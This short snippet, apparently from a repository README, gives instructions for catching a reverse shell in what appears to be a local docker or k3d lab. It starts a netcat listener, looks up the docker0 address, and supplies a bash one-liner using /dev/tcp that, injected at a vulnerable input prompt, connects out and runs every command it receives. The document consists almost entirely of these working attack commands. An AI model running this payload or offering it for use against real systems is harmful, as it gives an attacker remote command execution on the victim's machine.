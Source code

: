 # run netcat to capture incomming reverse shell
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# The exploit, run from a vulnerable input prompt
```bash
/bin/bash -c "exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do $line 2>&5 >&5; done"
```